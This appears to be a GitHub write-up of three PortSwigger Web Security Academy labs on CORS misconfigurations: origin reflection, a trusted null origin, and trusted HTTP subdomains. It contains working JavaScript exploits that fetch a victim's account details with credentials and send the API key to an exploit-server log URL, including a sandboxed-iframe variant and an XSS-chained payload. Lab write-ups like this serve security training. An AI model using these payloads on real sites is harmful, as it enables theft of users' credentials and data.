 <!-- omit in toc -->
# Cross-origin resource sharing (CORS)

<!-- omit in toc -->
## Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

## CORS vulnerability with basic origin reflection
### Reference: [PortSwigger: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

<!-- omit in toc -->
### Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```javascript
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing ``$url`` with your unique lab URL:
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted null origin
### Reference: [PortSwigger: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

<!-- omit in toc -->
### Quick Solution
In this case the ``null`` Origin value is **whitelisted**. Browsers might send the value ``null`` in the Origin header in various unusual situations, **Sandboxed cross-origin requests** is one of them. So we can reuse the previous exploit and wrap it inside a sandboxed iframe:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        const exploit = async () => {
            const labBaseUrl = <base_lab_url>;
            const details = '/accountDetails';
            const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
            const data = await response.json();
            fetch(`/hacked?apikey=${data.apikey}`)
        }

        exploit()
    </script>
"></iframe>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off, log in to your account, and click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: null.``
4. Observe that the "null" origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and ``$exploit-server-url`` with the exploit server URL
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```
Notice the use of an iframe sandbox as this generates a null origin request.
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted insecure protocols
### Reference: [PortSwigger: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

<!-- omit in toc -->
### Quick Solution
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. There is also a vulnerable subdomain endpoint used to check the stock that is vulnerable to XSS. This endpoint can be leveraged to exfiltrate date frmo the main domain. In the exploit server we just have to redirect the user to the vulnerable subdomain and perform XSS on it, see next paragraph for Solution.

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: http://subdomain.lab-id`` where ``lab-id`` is the lab domain name.
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5. Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the ``productID`` parameter is vulnerable to XSS.
7. In your browser, go to the exploit server and enter the following HTML, replacing ``$your-lab-url`` with your unique lab URL and ``$exploit-server-url`` with your exploit server URL:
```
<script>
   document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```


